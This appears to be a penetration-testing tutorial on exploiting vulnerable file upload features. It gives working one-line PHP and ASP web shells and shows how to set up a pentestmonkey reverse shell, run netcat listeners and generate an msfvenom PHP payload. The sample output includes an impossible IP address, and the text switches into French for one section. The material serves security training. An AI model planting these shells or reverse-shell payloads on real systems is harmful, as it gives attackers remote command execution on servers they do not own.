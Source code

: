 # Upload Exploitation

***

### <mark style="color:red;">Web Shells</mark>

We can find many excellent web shells online that provide useful features, like directory traversal or file transfer. <mark style="color:orange;">**One good option for**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`PHP`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**is**</mark> [<mark style="color:orange;">**phpbash**</mark>](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. Furthermore, [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/seclists/Web-Shells` directory in `PwnBox`.

We can download any of these web shells for the language of our web application (`PHP` in our case), then upload it through the vulnerable upload feature, and visit the uploaded file to interact with the web shell. For example, let's try to upload `phpbash.php` from [phpbash](https://github.com/Arrexel/phpbash) to our web application, and then navigate to its link by clicking on the Download button:

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_php_bash.jpg" alt=""><figcaption></figcaption></figure>

As we can see, this web shell provides a terminal-like experience, which makes it very easy to enumerate the back-end server for further exploitation. Try a few other web shells from SecLists, and see which ones best meet your needs.

***

### <mark style="color:red;">Writing Custom Web Shell</mark>

Although using web shells from online resources can provide a great experience, we should also know how to write a simple web shell manually. This is because we may not have access to online tools during some penetration tests, so we need to be able to create one when needed.

For example, with `PHP` web applications, we can use the `system()` function that executes system commands and prints their output, and pass it the `cmd` parameter with `$_REQUEST['cmd']`, as follows:

```php
<?php system($_REQUEST['cmd']); ?>
```

If we write the above script to `shell.php` and upload it to our web application, we can execute system commands with the `?cmd=` GET parameter (e.g. `?cmd=id`), as follows:

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg" alt=""><figcaption></figcaption></figure>

This may not be as easy to use as other web shells we can find online, but it still provides an interactive method for sending commands and retrieving their output. It could be the only available option during some web penetration tests.

Tip: If we are using this custom web shell in a browser, it may be best to use source-view by clicking `[CTRL+U]`, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.

Web shells are not exclusive to `PHP`, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. For `.NET` web applications, we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function, and it should also execute the command specified in `?cmd=` and print its output, as follows:

```asp
<% eval request('cmd') %>
```

***

### <mark style="color:red;">Reverse Shell</mark>

Enfin, voyons comment nous pouvons recevoir des shells inversés via la fonctionnalité de téléchargement vulnérable. Pour ce faire, nous devons commencer par télécharger un script de reverse shell dans le langage de l'application web.&#x20;

Un reverse shell fiable pour PHP est le <mark style="color:orange;">**pentestmonkey**</mark> PHP reverse shell.&#x20;

De plus, les mêmes SecLists mentionnées précédemment contiennent également des scripts de reverse shell pour divers langages et frameworks web, et nous pouvons en utiliser n'importe lequel pour recevoir un reverse shell.

Téléchargeons l'un des scripts de reverse shell mentionnés ci-dessus, comme celui de pentestmonkey, puis ouvrons-le dans un éditeur de texte pour y entrer notre IP et le PORT d'écoute, auxquels le script se connectera. Pour le script pentestmonkey, nous pouvons modifier les lignes 49 et 50 et y entrer l'IP/PORT de notre machine.

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

Next, we can start a `netcat` listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:

```shell-session
mrroboteLiot@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

***

### <mark style="color:red;">Generating Custom Reverse Shell Scripts</mark>

Just like web shells, we can also create our own reverse shell scripts. While it is possible to use the same previous `system` function and pass it a reverse shell command, this may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.

This is why it is always better to use core web framework functions to connect to our machine. However, this may not be as easy to memorize as a web shell script. Luckily, tools like `msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`:

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```
{% endcode %}

Once our `reverse.php` script is generated, we can once again start a `netcat` listener on the port we specified above, upload the `reverse.php` script and visit its link, and we should receive a reverse shell as well:

```shell-session
mrroboteLiot@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the `-p` flag and specify the output language with the `-f` flag
